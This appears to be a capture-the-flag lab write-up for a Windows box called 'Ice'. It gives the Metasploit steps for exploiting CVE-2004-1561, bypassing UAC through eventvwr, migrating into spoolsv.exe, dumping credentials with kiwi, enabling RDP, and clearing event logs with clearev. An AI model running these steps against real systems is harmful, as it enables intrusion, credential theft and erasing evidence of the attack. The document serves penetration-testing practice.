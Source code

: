# ICE 
## Reconnaissance
 * #### IP address : 10.10.113.228
---
## Scanning & Enumeration
started in RP Metaspoitable [here](/RP-Metasploit)

---
## Explotaiton
we are going to exploit [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/) vulnerability 

* access granted
![access granted](img/access-granted.png)
* privilege escalation

we run this command to find option to escalate privilege
```
run post/multi/recon/local_exploit_suggester
```
We are going to use [exploit/windows/local/bypassuac_eventvwr](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/) to escalate privilege

Now we own admin privilege

![admin](img/admin-privs.png)

## Maintainning Access
* Looting
<p  align="center">
<img src="img/looting.png">
</p>
migrate to spoolsv.exe process

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2392 to 1364...
[*] Migration completed successfully.
meterpreter > 
```
![Admin](img/admin.png)
---
* It's time to do collect password
```
load kiwi
```
![Creds all](img/creds_all.png)

* Post expoitation
user password [here](hashes)

* Windows MSRDP

Activate it first 
```
 run post/windows/manage/enable_rdp
```
Find acount [here](accounts)
![rdp image](img/rdp.png)

---
## Cleaning
* clear event log
```
meterpreter > clearev
```

---
